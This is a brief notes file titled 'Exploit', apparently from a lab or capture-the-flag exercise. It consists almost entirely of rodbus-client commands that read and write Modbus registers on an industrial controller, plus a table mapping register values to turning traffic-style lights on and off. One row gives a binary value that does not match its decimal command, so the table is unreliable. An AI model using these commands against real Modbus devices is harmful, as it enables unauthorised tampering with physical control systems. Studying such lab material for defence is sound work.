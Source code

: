 # Exploit

## Read values
* rodbus-client -h 10.10.30.2:503 -p 0 rhr --start 0 --quantity 1

## Fuzz values

* rodbus-client -h 10.10.30.2:504 -p 0 wsr --index 0 --value 2
* rodbus-client -h 10.10.30.2:504 -p 0 wsr --index 0 --value 0 -> turn off

## values

* 0100001100000000 --> turn on Red Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17152`
* 0100010100000000 --> turn on Green Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17664`
* 0100010100000000 --> turn off Green Green `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 17408`
* 0111111100000000 --> turn on All lights `rodbus-client -h 10.10.30.2:504  wsr --index 0 --value 32512`